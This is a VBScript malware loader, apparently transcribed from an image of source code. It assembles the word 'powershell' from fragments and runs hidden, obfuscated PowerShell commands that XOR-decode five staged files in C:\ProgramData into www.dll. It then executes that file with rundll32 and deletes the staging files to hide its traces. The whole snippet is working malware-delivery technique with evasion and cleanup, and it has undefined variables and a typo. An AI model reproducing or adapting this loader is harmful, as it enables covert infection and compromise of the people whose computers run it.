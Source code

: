 ```vb


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)
MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
```